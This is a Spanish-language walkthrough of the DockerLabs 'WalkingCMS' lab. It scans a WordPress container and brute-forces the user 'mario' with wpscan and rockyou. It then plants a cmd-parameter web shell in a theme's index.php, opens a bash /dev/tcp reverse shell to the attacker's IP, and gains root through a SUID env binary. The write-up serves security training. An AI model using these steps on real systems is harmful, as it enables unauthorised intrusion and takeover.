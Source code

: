 # WalkingCMS

Pequeño Lab en modo **easy** de dockerlabs.

- [Reconocimiento](#reconocimiento)
- [Escaneo](#escaneo)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Escalada de privilegios](#escalada-de-privilegios)

---

## Reconocimiento

Se asume que la máquina objetivo se encuentra correctamente desplegada dentro de nuestra red de laboratorio (en este caso, utilizando Docker).
Dado que la dirección IP del objetivo es proporcionada o fácilmente identificable dentro del entorno controlado, esta fase puede clasificarse como **reconocimiento pasivo**.

En un escenario real, el reconocimiento pasivo se orienta a recopilar información sin interactuar directamente con el sistema objetivo (por ejemplo, utilizando fuentes OSINT, registros públicos o información de infraestructura).
En este caso particular, al tratarse de un laboratorio aislado, la obtención de la IP se considera suficiente para dar inicio a la fase de enumeración activa.

![enter image description here](https://i.imgur.com/3XmtBs3.png)

---

## Escaneo

Como primer paso, se realizó un escaneo general de puertos y servicios con la herramienta **Nmap**, con el objetivo de identificar qué servicios se encuentran expuestos en el sistema objetivo (target) y obtener un panorama inicial de la superficie de ataque.

El comando ejecutado fue el siguiente:

    nmap -p- --open -sC -sC -sV --min-rate 5000 -n -Pn 172.17.0.2

- **-p-** → Escanea todos los puertos TCP (1 al 65535).

- **--open** → Muestra únicamente los puertos abiertos.

- **-sC** → Ejecuta los scripts por defecto de Nmap (NSE) para detección básica de vulnerabilidades y configuraciones inseguras.

- **-sV** → Intenta identificar la versión de los servicios en ejecución.

- **--min-rate** 5000 → Acelera el escaneo estableciendo un mínimo de 5000 paquetes por segundo.

- **-n** → Evita la resolución DNS para mayor rapidez.

- **-Pn** → Omite la fase de descubrimiento de host (se asume que el host está activo).

- **172.17.0.2** → Dirección IP asignada a la máquina víctima dentro del entorno Docker.

![enter image description here](https://i.imgur.com/1WvtOWR.png)

### Resultados del escaneo

El escaneo realizado con Nmap reveló que el puerto **80/tcp** se encuentra abierto y asociado al servicio HTTP. Esto indica la presencia de un servidor web en ejecución dentro del objetivo.

Con esta información inicial, se procedió a validar el hallazgo accediendo mediante un navegador a la dirección: `http://172.17.0.2` De esta manera, se confirma la existencia de un servicio web activo en el sistema. A partir de este punto, se iniciará la fase de enumeración web, con el fin de identificar posibles directorios ocultos, archivos sensibles o vulnerabilidades presentes en la aplicación expuesta. que hay un servicio web en efecto.

![enter image description here](https://i.imgur.com/RAoQPtY.png)

---

### Enumeración

El objetivo de esta fase es detectar posibles rutas ocultas o sensibles que puedan ser utilizadas para obtener información adicional del sistema o ser explotadas como vectores de ataque.

Para esta tarea se empleó la herramienta **Gobuster**, la cual permite realizar un ataque de fuerza bruta sobre el árbol de directorios utilizando listas de palabras previamente definidas.

    gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php,txt,html,php.bak

**Nota**: Podríamos tener en cuenta las siguientes consideraciones antes de usar el gobuster:

- **seclists** → Es un directorio genérico de diccionarios que se pueden instalar en parrot y kali utilizando `sudo apt install seclists`
- **-x** → Es para definir las extensiones que queremos encontrar al escanear la web.

![enter image description here](https://i.imgur.com/Acs91Dy.png)

Tras la ejecución de Gobuster, se identificaron varios directorios accesibles dentro del servidor web. Entre ellos, uno de especial interés corresponde a `http://172.17.0.2/wordpress` por lo que si nos dirigimos al enlace visualizaremos una página de inicio.

![enter image description here](https://i.imgur.com/qAyX6Nu.png)

Una vez identificado el directorio `/wordpress`, se determinó que el servicio corresponde a un CMS WordPress.
Dado que este tipo de plataformas son propensas a vulnerabilidades relacionadas con su versión, plugins y temas instalados, se decidió realizar un análisis de seguridad empleando la herramienta **WPScan**.

    wpscan --url "http://172.17.0.2/wordpress" --enumerate u, vp

![enter image description here](https://i.imgur.com/inH5Nxo.png)
![enter image description here](https://i.imgur.com/tSSdBwY.png)

Utilizar algun script con payloads personalizados o desde metasploit también sería una buena opción, para aprovechar el **xmlrpc** ya que practicamente es un fósil que presenta riesgos de seguridad.
Se identificó también que hay un tema activo y es el **twenty twentytwo**, algo que podría ser utilizado para explotar o algún plugin que tenga sus fallas o malas configuraciones a simple vista. En este caso el theme parece ser accessible desde una ruta en el navegador.
Por otro lado, hay un usuario llamado "mario" que podría resultar útil en un ataque de fuerza bruta, es por esto que se decide escanear nuevamente con el **wpscan** y añadirle nuevos parámetros como un diccionario de combinaciones de passwords como lo es rockyou y un usuario.

    wpscan --url "http://172.17.0.2/wordpress" --enumerate u, vp --passwords /home/criollo/rockyou.txt --usernames mario --random-user-agent

![enter image description here](https://i.imgur.com/CQAVinl.png)

Con un ataque automático de brute force realizado por el wpscan y utilizando nuestro diccionario de combinaciones obtenemos la contraseña.
Si analizamos nuevamente con el gobuster pero utilizando el directorio de wordpress, encontraríamos otros resultados que nos ayudarían a conseguir la forma de loguear o utilizar las credenciales que obtuvimos.

![enter image description here](https://i.imgur.com/MfPg9z8.png)

---

## Explotación

A continuación, podremos notar que:

    http://172.17.0.2/wordpress/wp-login.php

Es una ruta que parece llevarnos al inicio de sesión de nuestro Wordpress, si intentamos con las credenciales y obtenemos acceso a la dashboard de la plataforma.
![enter image description here](https://i.imgur.com/Tcr1UUP.png)

Directamente se tuvo muy encuenta la revelación del wpscan con respecto al tema twenty twenty por lo que al saber que se puede acceder desde `http://172.17.0.2/wordpress/themes/twentytwentytwo/index.php`
Podriamos usarlo para realizar una reverse shell editando el index.php, para eso dentro de la dashboard se posiciona en `Apariencia>Theme Code Editor`, luego se ubica el index.php y se editar, reemplazando el código original por un código php básico donde se reciba el query param **cmd**, una vez lo modifiquemos, le damos a **Update File** y ya podríamos acceder a la ruta del tema utilizando parámetros que en esta ocasión sería cmd=COMANDO.
![enter image description here](https://i.imgur.com/diWBn6X.png)

Un claro ejemplo de esto sería ejecutar un comando a nivel de terminal en linux (esta máquina es debian) como es el `ls` y obtener algo como:

![enter image description here](https://i.imgur.com/XZDGpMy.png)

### Reverse shell

Debido a que funciona, se puede utilizar un código en bash para ejecutar una reverse shell que nos permita establecer conexión desde shell. En este caso podríamos usar la de bash encontrada en [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), donde la IP será de nuetra máquina atacante al igual que el puerto de escucha.

Ejemplo:

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Aplicado sería:

    http://172.17.0.2/wordpress/themes/twentytwentytwo/index.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.0.0.1/443 0>%261"

**Notas**:

- Con el código de `%26`reemplazamos a la **&** y mejoramos la inyección de comando evitando errores.
- Se utilizó el puerto 443 en lugar del 8080
- Antes de ejecutar el webshell se utilizó netcat para ponerse a la escucha con el puerto designado `sudo nc -lvnp 443`

Luego de ejecutar el comando en la Web shell, conseguimos establecer conexión con nuestra máquina.
![enter image description here](https://i.imgur.com/dpYnHCI.png)

### Escalada de privilegios

Moviéndose al `/home`se pueden buscar archivos en la raíz que permitan ser explotados o ejecutados para conseguir el `root`de la máquina.

    find / -perm -4000 2>/dev/null

![enter image description here](https://i.imgur.com/3lkIOGD.png)

Buscando en [GTFObins](https://gtfobins.github.io/gtfobins/env/) , `env` podría ser explotado de la siguiente manera con SUID obteniendo escalada de privilegios:

```
sudo install -m =xs $(which env) .

./env /bin/sh -p
```

Por lo que si lo aplicamos a nuestra máquina...
![enter image description here](https://i.imgur.com/HAivnyT.png)

Logramos comprometerla y obtener el usuario root.
